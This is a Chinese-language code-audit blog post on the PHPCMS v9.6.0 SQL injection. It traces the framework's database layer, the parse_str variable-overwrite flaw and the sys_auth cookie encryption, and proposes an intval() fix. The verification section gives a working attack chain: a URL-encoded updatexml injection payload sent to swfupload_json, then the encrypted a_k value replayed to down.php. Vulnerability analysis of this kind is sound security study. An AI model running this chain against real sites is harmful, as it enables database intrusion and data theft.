








# PHPCMSv9.6.0 SQL注入漏洞分析


PHPCMS V9.6.0存在 SQL 注入漏洞，对其进行代码审计学习

# 全局分析
## 数据库分析
本漏洞中核心是下列代码
```
class down {  
    public function init() {
    ...
	$rs = $this->db->get_one(array('id'=>$id));
```

所以在正式漏洞审计前，先分析一下操纵数据库的公共库文件，以此对这段程序的数据库操作有个基本认知
db->get_one() 从模型对象中调用类方法，这个模型对象在 phpcms/modules/content/down.php 构造方法中被定义
```
class down {  
    private $db;  
    function __construct() {  
        $this->db = pc_base::load_model('content_model');
        //调用静态方法，加载数据模型 content_model.class.php
    }
```

content_model.class.php 的构造方法进行加载配置文件、定义属性、调用父类构造方法、加载应用类方法，并获取当前的站点ID
```
class content_model extends model {  
    public function __construct() {  
       $this->db_config = pc_base::load_config('database');  
			  => 
				#caches/configs/database.php 内容
				return array (  
					'default' => array (  
					   'hostname' => 'localhost',  
					   'port' => 3306,  
					   'database' => 'phpcmsv9',  
					   'username' => 'xx',  
					   'password' => 'xx',  
					   'tablepre' => 'v9_',  
					   'charset' => 'utf8',  
					   'type' => 'mysqli',  
					   'debug' => true,  
					   'pconnect' => 0,  
					   'autoconnect' => 0  
					   ),  
				);  

       $this->db_setting = 'default';  
       parent::__construct();  
       $this->url = pc_base::load_app_class('url', 'content');  
       $this->siteid = get_siteid();  
    }
```

但在该类中并没有定义 get_one 类方法，在其父类 extends model 中找到
```
class model{
	final public function get_one($where = '', $data = '*', $order = '', $group = '') {  
    if (is_array($where)) $where = $this->sqls($where);  
	      =>#sqls类方法
			final public function sqls($where, $font = ' AND ') {  
			    if (is_array($where)) {  
			       $sql = '';  
			       foreach ($where as $key=>$val) {  
			          $sql .= $sql ? " $font `$key` = '$val' " : " `$key` = '$val'";
			          //对传参语句进行拼接，中间用 AND 连接
			          //如 id=1&sql=2，变为 `id`='1' AND `sql` = '2'  
			       }  
			       return $sql;  
			    } else {  
			       return $where;  
			    }  
			}
    return $this->db->get_one($data, $this->table_name, $where, $order, $group);  
	}
```

到此为止，get_one 都没有进行 SQL 语句执行，继续往下追踪。
$this -> db -> get_one($data...) 调用本类的 db 模型对象，同样在构造方法中定义
```
class model{
	public function __construct() {  
	    if (!isset($this->db_config[$this->db_setting])) {  
	       $this->db_setting = 'default';  
	    }  
	    $this->table_name = $this->db_config[$this->db_setting]['tablepre'].$this->table_name;  
	    $this->db_tablepre = $this->db_config[$this->db_setting]['tablepre'];  
	    $this->db = db_factory::get_instance($this->db_config)->get_database($this->db_setting);  
			  =>//phpcms/libs/classes/db_factory.class.php
				//返回当前终级类对象的实例
				public static function get_instance($db_config = '') {  
				    if($db_config == '') {  
				       $db_config = pc_base::load_config('database');  
				       //加载配置文件 database.php
				    }  
				    if(db_factory::$db_factory == '') {  
				       db_factory::$db_factory = new db_factory();  
				       //实例化 db_factory 基类
				    }  
				    if($db_config != '' && $db_config != db_factory::$db_factory->db_config) db_factory::$db_factory->db_config = array_merge($db_config, db_factory::$db_factory->db_config);  
				    return db_factory::$db_factory;  
				}  
				  
				//获取数据库操作实例  
				public function get_database($db_name) {  
				    if(!isset($this->db_list[$db_name]) || !is_object($this->db_list[$db_name])) {  
				       $this->db_list[$db_name] = $this->connect($db_name);  
				    }  
				    return $this->db_list[$db_name];  
				    //返回模型对象
				}
	}
}
```
db_name为default，而默认在上面已经看到了，'database' => 'phpcmsv9',  'type' => 'mysqli'，因此默认数据库基类为 db_mysqli，我们跟踪 db_mysql.class.php
这里将 $sql 属性中交给 db_mysqli_class.php::execute 执行
```
//phpcms/libs/classes/db_mysqli.class.php
final class db_mysqli{
	public function get_one($data, $table, $where = '', $order = '', $group = '') {  
	    $where = $where == '' ? '' : ' WHERE '.$where;  
	    $order = $order == '' ? '' : ' ORDER BY '.$order;  
	    $group = $group == '' ? '' : ' GROUP BY '.$group;  
	    $limit = ' LIMIT 1';  
	    $field = explode( ',', $data);  
	    array_walk($field, array($this, 'add_special_char'));  
	    $data = implode(',', $field);  
	  
	    $sql = 'SELECT '.$data.' FROM `'.$this->config['database'].'`.`'.$table.'`'.$where.$group.$order.$limit;  
	    $this->execute($sql);  
			  =>
				private function execute($sql) {  
				    if(!is_object($this->link)) {  
				       $this->connect();  
						      =>
								public function connect() {  
								    $this->link = new mysqli($this->config['hostname'], $this->config['username'], $this->config['password'], $this->config['database'], $this->config['port']?intval($this->config['port']):3306);  
								    if(mysqli_connect_error()){  
								       $this->halt('Can not connect to MySQL server');  
								       return false;  
								    }  
								    if($this->version() > '4.1') {  
								       $charset = isset($this->config['charset']) ? $this->config['charset'] : '';  
								       $serverset = $charset ? "character_set_connection='$charset',character_set_results='$charset',character_set_client=binary" : '';  
								       $serverset .= $this->version() > '5.0.1' ? ((empty($serverset) ? '' : ',')." sql_mode='' ") : '';  
								       $serverset && $this->link->query("SET $serverset");  
								    }  
								    return $this->link;  
								}
				    }  
				    $this->lastqueryid = $this->link->query($sql) or $this->halt($this->link->error, $sql);  
				    $this->querycount++;  
				    return $this->lastqueryid;  
				}
	    $res = $this->fetch_next();  
	    $this->free_result();  
	    return $res;  
	}
}
```

最终一路到 db_mysqli.class.php::connect 调用 php 内置数据库方法 query 执行 sql 语句
```
$this->execute($sql);  
	  =>
		private function execute($sql) {  
			if(!is_object($this->link)) {  
			   $this->connect();  
					  =>
						public function connect() {  
							$this->link = new mysqli($this->config['hostname'], $this->config['username'], $this->config['password'], $this->config['database'], $this->config['port']?intval($this->config['port']):3306);  
							if(mysqli_connect_error()){  
							   $this->halt('Can not connect to MySQL server');  
							   return false;  
							}  
							if($this->version() > '4.1') {  
							   $charset = isset($this->config['charset']) ? $this->config['charset'] : '';  
							   $serverset = $charset ? "character_set_connection='$charset',character_set_results='$charset',character_set_client=binary" : '';  
							   $serverset .= $this->version() > '5.0.1' ? ((empty($serverset) ? '' : ',')." sql_mode='' ") : '';  
							   $serverset && $this->link->query("SET $serverset");  
							}  
							return $this->link;  
						}
			}  
			$this->lastqueryid = $this->link->query($sql) or $this->halt($this->link->error, $sql);  
			$this->querycount++;  
			return $this->lastqueryid;  
		}
```

总结调用栈
```
down.php::init()
	model.class.php::get_one()
		db_mysqli.class.php::get_one()
			db_mysqli.class.php::execute()
				db_mysqli.class.php::connect()
```

## PHP 特性分析
PHP 的 parse_str 在特定场景中，是存在变量覆盖漏洞，并且它是通过识别 & 的方式来判断参数
假设代码如下
```
<?php  
$a_k = '{"aid":1,"src":"&id=%27 and updatexml(1,concat(1,(user())),1)#&m=1&f=cookie&modelid=1&catid=1&","filename":""}';  
parse_str($a_k, $vars);  
print_r($vars);
```

可以看到即使是 JSON 格式，带有 & 的参数都被注册为变量了
那么接下来进入实战审计

# 审计
## 代码审计
阅读 phpcms/modules/content/down.php 代码段，发现 down.php::init() 是有可能存在 SQL 注入漏洞的
```
class down {
	public function init() {  
	    $a_k = trim($_GET['a_k']);  
	    if(!isset($a_k)) showmessage(L('illegal_parameters'));  
	    $a_k = sys_auth($a_k, 'DECODE', pc_base::load_config('system','auth_key'));  
	    if(empty($a_k)) showmessage(L('illegal_parameters'));  
	    unset($i,$m,$f);  
	    parse_str($a_k);  
	    if(isset($i)) $i = $id = intval($i);  
	    if(!isset($m)) showmessage(L('illegal_parameters'));  
	    if(!isset($modelid)||!isset($catid)) showmessage(L('illegal_parameters'));  
	    if(empty($f)) showmessage(L('url_invalid'));  
	    $allow_visitor = 1;  
	    $MODEL = getcache('model','commons');  
	    $tablename = $this->db->table_name = $this->db->db_tablepre.$MODEL[$modelid]['tablename'];  
	    $this->db->table_name = $tablename.'_data';  
	    $rs = $this->db->get_one(array('id'=>$id));
	    ...
}
```

$a_k 由用户控制，一切由用户可控参数皆是危险的；在这里 $a_k 被交给 parse_str 进行变量注册，而 $id 上面分析过是被直接拼接 SQL 语句执行的
仔细看下列代码段
```
unset($i,$m,$f);  
parse_str($a_k);  
if(isset($i)) $i = $id = intval($i);
```

unset 注销变量 $i，在后面 if 条件检验，此时将会 intval 后的 $i 赋值给 $id，如果成功则注入肯定行不通，但是 $i 都被注销了，这里存在无效条件检验
这样我们就能肆意玩弄 parse_str，传入 a_k=payload，将 payload 进行 URL 编码以免 & 影响 HTTP 解析
但现在问题来了，$a_k 还经过执行一次 sys_auth()，我们得看看这个方法是做什么的
```
#phpcms/libs/functions/global.func.php
function sys_auth($string, $operation = 'ENCODE', $key = '', $expiry = 0) {
    $ckey_length = 4;
    // 使用配置文件中的 auth_key，如果没有传入$key
    $key = md5($key != '' ? $key : pc_base::load_config('system', 'auth_key'));
    $keya = md5(substr($key, 0, 16)); // 密钥前半部分
    $keyb = md5(substr($key, 16, 16)); // 密钥后半部分
    // $keyc 为随机密钥片段（编码时生成，解码时从字符串开头取出）
    $keyc = $ckey_length ? ($operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$ckey_length)) : '';

    // 组合最终的加密 key
    $cryptkey = $keya.md5($keya.$keyc);
    $key_length = strlen($cryptkey);

    // 如果是解码，先base64解码；如果是编码，拼接过期时间 + 校验摘要 + 原始字符串
    $string = $operation == 'DECODE'
        ? base64_decode(strtr(substr($string, $ckey_length), '-_', '+/'))
        : sprintf('%010d', $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
    $string_length = strlen($string);

    $result = '';
    $box = range(0, 255); // 初始化 0-255 数组

    $rndkey = array();
    // 生成密钥的数组
    for($i = 0; $i <= 255; $i++) {
        $rndkey[$i] = ord($cryptkey[$i % $key_length]);
    }

    // 类似 RC4 的密钥调度算法
    for($j = $i = 0; $i < 256; $i++) {
        $j = ($j + $box[$i] + $rndkey[$i]) % 256;
        $tmp = $box[$i];
        $box[$i] = $box[$j];
        $box[$j] = $tmp;
    }

    // 加解密过程（异或运算）
    for($a = $j = $i = 0; $i < $string_length; $i++) {
        $a = ($a + 1) % 256;
        $j = ($j + $box[$a]) % 256;
        $tmp = $box[$a];
        $box[$a] = $box[$j];
        $box[$j] = $tmp;
        $result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
    }

    if($operation == 'DECODE') {
        // 验证有效期和完整性
        if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0)
            && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
            return substr($result, 26); // 返回真正的解密结果
        } else {
            return '';
        }
    } else {
        // 编码后拼接 keyc，并替换 base64 字符
        return $keyc.rtrim(strtr(base64_encode($result), '+/', '-_'), '=');
    }
}
```

即使读不懂也没关系，完全可以把它当做一个封装好的黑盒，思维和黑盒测试一样，扒出来单独测试，丢一些参数进去，看看它是如何运行的
简单来说，该方法就是内置的加解密函数，加密解密的关键取决于密钥 $key
而此时 $a_k = sys_auth($a_k, 'DECODE', pc_base::load_config('system','auth_key')); 传入 $operation = 'DECODE' 即解密，读取配置文件 system.php 中的 auth_key 来解密，而这个 auth_key 密钥每个环境都不一样，攻击者在生产环境是不可能隔空读取到服务器的密钥来进行加密的
也就是说，直接本地加密不成，现在需要一个方法，通过服务器自身前后端交互来得到加密后字符串
全局检索一下 sys_auth 还有在哪里被调用


在 phpsso_server/phpcms/libs/classes/param.class.php 中有一个符合我们要求的，先设置键名，后将 sys_auth 加密后的字符串作为键值给 setcookie() 执行，这是 PHP 内置方法，作用是发送 Cookie 给前端用户，这里发送的就是加密后的值
```
public static function set_cookie($var, $value = '', $time = 0) {
		$time = $time > 0 ? $time : ($value == '' ? SYS_TIME - 3600 : 0);
		$s = $_SERVER['SERVER_PORT'] == '443' ? 1 : 0;
		$var = pc_base::load_config('system','cookie_pre').$var;
		$_COOKIE[$var] = $value;
		if (is_array($value)) {
			foreach($value as $k=>$v) {
				setcookie($var.'['.$k.']', sys_auth($v, 'ENCODE'), $time, pc_base::load_config('system','cookie_path'), pc_base::load_config('system','cookie_domain'), $s);
			}
		} else {
			setcookie($var, sys_auth($value, 'ENCODE'), $time, pc_base::load_config('system','cookie_path'), pc_base::load_config('system','cookie_domain'), $s);
		}
	}
```

全局查找哪里调用了 set_cookie，注意这个类方法不能随意了，必须是 application 能调用到的类文件中的


在 phpcms/modules/attachment/attachments.php 发现一个设置 swfupload 上传的 json 格式 cookie 的方法。这里进行了简单的字符串过滤，可以用类似双写的手法绕过
```
public function swfupload_json() {  
    $arr['aid'] = intval($_GET['aid']);  
    $arr['src'] = safe_replace(trim($_GET['src']));  
		  =>
			function safe_replace($string) {  
				//过滤
			    $string = str_replace('%20','',$string);  
			    $string = str_replace('%27','',$string);  
			    $string = str_replace('%2527','',$string);  
			    $string = str_replace('*','',$string);  
			    $string = str_replace('"','&quot;',$string);  
			    $string = str_replace("'",'',$string);  
			    $string = str_replace('"','',$string);  
			    $string = str_replace(';','',$string);  
			    $string = str_replace('<','&lt;',$string);  
			    $string = str_replace('>','&gt;',$string);  
			    $string = str_replace("{",'',$string);  
			    $string = str_replace('}','',$string);  
			    $string = str_replace('\\','',$string);  
			    return $string;  
			}
			
    $arr['filename'] = urlencode(safe_replace($_GET['filename']));  
    $json_str = json_encode($arr);  
    $att_arr_exist = param::get_cookie('att_json');  
    $att_arr_exist_tmp = explode('||', $att_arr_exist);  
    if(is_array($att_arr_exist_tmp) && in_array($json_str, $att_arr_exist_tmp)) {  
       return true;  
    } else {  
       $json_str = $att_arr_exist ? $att_arr_exist.'||'.$json_str : $json_str;  
       param::set_cookie('att_json',$json_str);  
       return true;           
    }  
}
```

但进行了 JSON 格式转换 $json_str = json_encode($arr); 有关系么？上面已经分析过 PHP 特性，parse_str 是不介意 JSON 格式的，只要我们传入中带有 & 就能识别
到此为止攻击链似乎要闭合了，attachments.php::swfupload_json() 拿到加密字符串，传给 down.php::init() 进行变量覆盖以期 SQL 注入，不过还有一些限制需要达成或绕过。
在 attachments 的构造方法中有登录校验，通过 Cookie 判断是否登录


这里的一些字段如 _userid 是 phpcms 设置的登录凭证，会在用户成功登录后（无论是 WAP、PC 会员中心、SSO 单点登录接口）自动设置，我们只需要登录 PC 会员中心即可
除此之外直接访问 WAP/index.php 同样能拿到这些字段，只不过 wap 会麻烦一些，需要发包的同时手动将凭证加在 POST 中，程序会用 sys_auth($_POST['userid_flash'],'DECODE') 解码接收 


## 漏洞验证

先预计构造 'and updatexml(1,concat(0x7e,(select user()),0x7e),1)#
```
http://192.168.43.169:8089/index.php?m=attachment&c=attachments&a=swfupload_json&src=%27%61%6e%64%20%75%70%64%61%74%65%78%6d%6c%28%31%2c%63%6f%6e%63%61%74%28%30%78%37%65%2c%28%73%65%6c%65%63%74%20%75%73%65%72%28%29%29%2c%30%78%37%65%29%2c%31%29%23
//经测试，src通过URL编码也可以绕过
```


拿到 att_json 后向 down.php 发包

```
?m=content&c=down&a=init&a_k=b7a88ed6OU13MyCa8X33qGD8Y9WGLJyHlu3TKMG2PpR6_y8d6TUoQYHig5JY_xv2rMKUZwd5GTK3gQSXHB9OSiN0mmCI0TOsr2luk1u7E0E6CxzjhHCAY8eeQmDEY4iYPdjLbAeWcw93RBIvjBQZiufYIbJL75d4LgLkhh0Z7s_Ln_vojUdD4aYvFPjv0bg3CXifaTXJ883JhfZnPBOS6ftAJ79pubfpV0ujqYgdeCVS0s55CCZD3eRrhVtuj3fRZiy-R9aQvXnexvNhI6zhuoaEmPJFsgS15GEuv-M6xeRaSg&XDEBUG_SESSION_START=18200
//注：这个att_json是根据服务器存储密钥来加密得到的字符串，每个密钥不一样，需要调用attachments::swfupload_json手动拿到
```
完成报错注入漏洞利用，如果生产环境属于无报错回显，还可以通过延迟注入


# 漏洞修复
漏洞根源是 $id 被直接拼接在数据库语句中执行，而这个 id 预计在数据库中应该是个数字，所以强制 intval() 应该就可以拦截了


再次发包



PS. 又掌握一个漏洞形成的方式，耶乎？


---

> Author: [L1nq](https://github.com/L1nq0)  
> URL: https://sw1mblu3.fun/posts/phpcmsv9-6-0-sql%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E%E5%AE%A1%E8%AE%A1/  

